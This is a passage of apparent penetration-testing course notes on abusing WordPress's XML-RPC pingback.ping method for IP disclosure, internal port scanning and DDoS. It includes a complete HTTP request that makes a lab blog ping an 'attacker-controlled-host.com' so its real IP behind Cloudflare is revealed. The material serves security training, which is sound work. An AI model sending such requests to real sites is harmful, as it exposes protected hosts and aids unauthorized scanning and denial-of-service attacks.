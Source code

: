 Inside the list of available methods above, pingback.ping is included. pingback.ping allows for XML-RPC pingbacks. According to WordPress, a pingback is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks.

Unfortunately, if pingbacks are available, they can facilitate:
- **IP Disclosure** - An attacker can call the pingback.ping method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- **Cross-Site Port Attack (XSPA)** - An attacker can call the pingback.ping method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences;
- **Distributed Denial of Service Attack (DDoS)** - An attacker can call the pingback.ping method on numerous WordPress instances against a single target.

Find below how an **IP Disclosure attack could be mounted if xmlrpc.php is enabled and the pingback.ping method is available**. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in http://blog.inlanefreight.com is protected by Cloudflare. As we already identified, it also has xmlrpc.php enabled, and the pingback.ping method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from ```http://blog.inlanefreight.com```, verifying the pingback and exposing ```http://blog.inlanefreight.com```'s public IP address.

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```


<br>
<br>
<br>
<br>

# Information disclosure

Suppose we are assessing an API residing in ```http://<TARGET IP>:3003```.
